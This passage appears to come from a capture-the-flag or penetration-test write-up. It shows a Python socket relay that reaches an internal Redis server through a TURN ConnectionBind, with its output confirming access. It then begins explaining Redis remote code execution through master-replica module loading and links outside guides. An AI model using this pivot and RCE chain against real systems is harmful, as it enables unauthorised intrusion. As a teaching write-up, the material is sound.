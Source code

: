 ```python
      data = sock.recv(4096)
      if not data :
        print('Connection closed')
        sys.exit()
      else :
        #print data
        sys.stdout.write(data.decode('ascii'))
    
    #user entered a message
    else :
      msg = sys.stdin.readline()
      ds.send(msg.encode('ascii'))
```

Lets run it and see how things go.

```python
generated txn id b'94f5b75dd0ef28dde4622cf8'
Raw ConnectionBind Request Response b'\x01\x0b\x00\x08!\x12\xa4B\x94\xf5\xb7]\xd0\xef(\xdd\xe4b,\xf8\x80"\x00\x04None'
Message Type b'\x01\x0b'
Length 8
Cookie b'2112a442'
txn ID b'94f5b75dd0ef28dde4622cf8'
attribute type SOFTWARE
value None

KEYS *
*0
```

We type `KEYS *` and get a response, success! We now have a connection that behaves as if we have used netcat to connect to a redis server.  
Eventually the connection gets reset, and this may either be due to a restart mechanism on the server, or a lack of refresh requests on
the control socket.  Either way, it stays open long enough we can pretty much get done whatever we need to.  One thing of note, when closing
the control socket, it seemed the data socket connection also was reset.

## Redis

Now we move on to attacking redis.  After attempting or ruling out most of the options outlined at https://book.hacktricks.xyz/pentesting/6379-pentesting-redis,
 we ended up searching for other options.  That's when we came across the following post https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0.  This article outlines a pretty cool technique that utilizes components of previous techniques and some clever syncing between a
master and a replica to load a custom module.  There are a few ingredients...

First is that redis servers can be either replicas or masters.  The replicas act as read-only backups, and the masters are responsible for 
writing.  So we can make the vulnerable redis server a replica of our own.  This means data from our own server will be 
synchronized to the replica.
